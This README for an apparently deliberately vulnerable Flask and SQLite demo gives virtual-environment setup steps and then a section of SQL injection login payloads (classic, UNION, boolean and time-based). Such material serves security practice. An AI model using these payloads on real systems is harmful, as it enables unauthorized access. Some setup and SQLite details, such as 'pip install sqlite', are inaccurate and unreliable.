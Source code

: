 # Demo Project

This README provides step-by-step instructions for setting up a Python virtual environment across different operating systems. The guide also includes additional tips for working with Flask and SQLite.

## Table of Contents

1. [Setting Up a Virtual Environment](#setting-up-a-virtual-environment)
2. [Activating the Virtual Environment](#activating-the-virtual-environment)
3. [Working with Flask](#working-with-flask)
4. [Working with SQLite](#working-with-sqlite)

## Setting Up a Virtual Environment

### Windows

1. **Open Command Prompt**: Press `Windows + R`, type `cmd`, and hit Enter.
2. **Navigate to Project Directory**: Use the `cd` command to navigate to your project folder.
3. **Create Virtual Environment**:
   ```cmd
   python -m venv env
   ```

### macOS and Linux

1. **Open Terminal**: Open it from the Applications folder or search for it using Spotlight (`Cmd + Space`).
2. **Navigate to Project Directory**: Use the `cd` command to go to your project folder.
3. **Create Virtual Environment**:
   ```bash
   python3 -m venv env
   ```

## Activating the Virtual Environment

### Windows

1. **Activate Virtual Environment**:
   ```cmd
   .\env\Scripts\Activate
   ```

### macOS and Linux

1. **Activate Virtual Environment**:
   ```bash
   source env/bin/activate
   ```

## Working with Flask

1. **Install Flask**:
   ```bash
   pip install Flask
   ```
2. **Run Flask Application**:
   ```bash
   flask run
   ```

## Working with SQLite

1. **Install SQLite**:
   ```bash
   pip install sqlite
   ```
2. **Initialize Database**:
   ```bash
   python init_db.py
   ```

## Testing SQL Injections

### Classic SQL Injection

1. **Username**:

   ```bash
   ' OR '1'='1
   ```

2. **Password**:
   ```bash
   ' OR '1'='1
   ```

### Union-based SQL Injection

SQLite doesn't allow multiple statements in a single SQL query, which limits the types of UNION queries you can perform. However, you can still test basic UNION-based SQL injections.

1. **Username**:

   ```bash
   ' UNION SELECT NULL, 'a', 'b' --
   ```

2. **Password**:
   ```bash
   Leave it blank
   ```

### Boolean-based SQL Injection

1. **Username**:

   ```bash
   ' OR '1'='1
   ```

2. **Password**:
   ```bash
   ' OR '1'='2
   ```

### Time-based Blind SQL Injection

SQLite does not have built-in sleep functions, but for databases that do (like MySQL), you could use payloads like:

1. **Username**:

   ```bash
   ' OR IF('1'='1', sleep(10), 0) --
   ```

2. **Password**:
   ```bash
   Leave it blank
   ```
